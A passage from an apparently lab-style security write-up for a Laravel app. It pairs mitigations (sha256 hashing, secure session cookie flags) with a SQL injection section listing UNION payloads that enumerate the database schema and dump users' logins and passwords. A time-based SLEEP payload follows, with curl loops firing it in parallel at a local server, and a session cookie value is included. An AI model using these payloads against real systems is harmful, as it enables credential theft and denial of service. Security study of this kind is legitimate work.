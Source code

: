### Mitigation
- Use sha256 instead of md5\
UserController
```
// UNSECURE with md5
// $newImageHash = md5_file($newImage);

// SECURE with sha56
$newImageHash = hash_file('sha256', $newImage);

```

### Additional checks
- In confing/session.php
'secure' => true,
'http_only' => true,

## 3. Injection
### Hack
- Search using searchbar, trying to use sql sintax in order to inject sql commands\
For example:
```
'
'#
quas'order by 10#

quas'order by 7#

quas%'union select 1,user(),3,4,5,6,7#

quas%'union select 1,database(),3,4,5,6,7#

quas%'union select 1,(select GROUP_CONCAT(table_name,'\n') from information_schema.tables where table_type='BASE TABLE'),3,4,5,6,7-- -

quas%'union select 1,(select GROUP_CONCAT(column_name,'\n') from information_schema.columns where table_name='users' and table_schema='bwapp'),3,4,5,6,7-- -

quas%' union select 1,(select GROUP_CONCAT(login,":",password,"\n") from users),3,4,5,6,7-- -

quas%' union select 1,(select GROUP_CONCAT(login,":",password,"\n") from DBNAME.users),3,4,5,6,7-- -

quas%' UNION SELECT 1, SLEEP(10), 3, 4, 5, 6, 7-- -;

laravel_session=eyJpdiI6Inl5WnlJdUhOVy9sUDhIZW0vd1dPWlE9PSIsInZhbHVlIjoiWi83VzF0Uk5oRFB2VlI4T0ttMnJDd1A4MDBtOFVPdWVpU2tETmRxbGc0Mlg1d1NlWWRwemV0Z2g2am1PcDZQSnY2MTlxTkV1cEYzZnhhdy9VRUQ2QXR4NkRIdjREMk1vTE9pUVlYZGo3SSszMDdsdUR5MzZrTFJMMGFDQ3NuVG8iLCJtYWMiOiIwYjZmOTc0ZDFhNzcyOTQyNzIwYzQ4ZDIxYTJlOTI4ZDVhMGY1NjE0NmFlNzZlYzQxYjdlM2IwZjlkNDc0OTNiIiwidGFnIjoiIn0%3D

for i in {1..2}
do
  # Esegui il comando curl con la query di SQL injection
  curl "http://localhost:8000/articles/search?search=quas%25%27%20UNION%20SELECT%201,%20SLEEP(10),%203,%204,%205,%206,%207--%20-"
  echo "Request $i sent"
done

curl --parallel --parallel-immediate --parallel-max 5 http://localhost:8000/articles/search?search=quas%25%27%20UNION%20SELECT%201,%20SLEEP(10),%203,%204,%205,%206,%207--%20-

```
